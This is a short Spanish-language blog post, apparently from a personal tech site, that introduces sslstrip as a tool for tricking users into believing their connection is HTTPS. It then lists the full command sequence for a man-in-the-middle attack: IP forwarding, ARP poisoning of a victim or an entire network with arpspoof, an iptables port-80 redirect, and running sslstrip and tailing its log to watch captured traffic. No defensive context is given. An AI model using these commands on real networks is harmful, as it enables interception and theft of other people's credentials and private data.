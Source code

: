 ```yaml
---
layout: post
title: "sslstrip"
date: 2014-01-28 17:53
comments: true
categories: 
---
```

Herramienta para engañar al usuario haciéndole pensar que se encuentra en un sitio de Internet con cifrado SSL [HTTPS], cuando en realidad todos los datos están siendo transmitidos en abierto [HTTP]. 

Configuración de reenvío de paquetes IP: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Envenenamiento ARP (paquete dsniff): 

>\# arpspoof -i eth0 -t ip_victima ip_router 

En caso de querer atacar toda la red, solo especificar la ip router: 

>\# arpspoof -i eth0 ip_router 

Redirección de puertos usando Iptables: 

>\# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 31715 

Al reiniciar el ordenador se borrará la regla, si se quiere borrar al momento cambiar "-A" por un "-D" en el comando anterior. 

Arrancar sslstrip y ponerlo a la escucha: 

>\# sslstrip -k -f -l 31715 -w archivo.log 

Visionar en tiempo real los paquetes capturados: 

>\#  tail -f archivo.log 


